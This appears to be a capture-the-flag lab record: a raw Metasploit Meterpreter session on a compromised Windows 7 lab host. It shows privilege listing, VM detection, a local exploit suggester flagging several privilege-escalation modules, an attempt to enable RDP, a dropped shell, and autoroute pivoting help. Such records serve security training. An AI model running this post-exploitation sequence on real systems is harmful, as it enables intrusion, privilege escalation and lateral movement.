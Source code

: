     meterpreter > getprivs
    
    Enabled Process Privileges
    ==========================
    
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege

    meterpreter > run post/windows/gather/checkvm
    
    [*] Checking if DARK-PC is a Virtual Machine ...
    [+] This is a Xen Virtual Machine
    
    
    meterpreter > run post/multi/recon/local_exploit_suggester
    
    [*] 10.10.239.197 - Collecting local exploits for x86/windows...
    [*] 10.10.239.197 - 34 exploit checks are being tried...
    [+] 10.10.239.197 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    nil versions are discouraged and will be deprecated in Rubygems 4
    [+] 10.10.239.197 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
    [+] 10.10.239.197 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.


    meterpreter > run post/windows/manage/enable_rdp
    
    [-] Insufficient privileges, Remote Desktop Service was not modified
    [*] For cleanup execute Meterpreter resource file: /home/kali/.msf4/loot/20201106151019_default_10.10.239.197_host.windows.cle_167732.txt


    meterpreter > shell
    Process 1988 created.
    Channel 5 created.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Program Files (x86)\Icecast2 Win32>

    meterpreter > run autoroute -h

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    [*] Usage:   run autoroute [-r] -s subnet -n netmask
    [*] Examples:
    [*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
    [*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
    [*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
    [*]   run autoroute -p                            # Print active routing table
    [*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
    [*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
    [-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
    
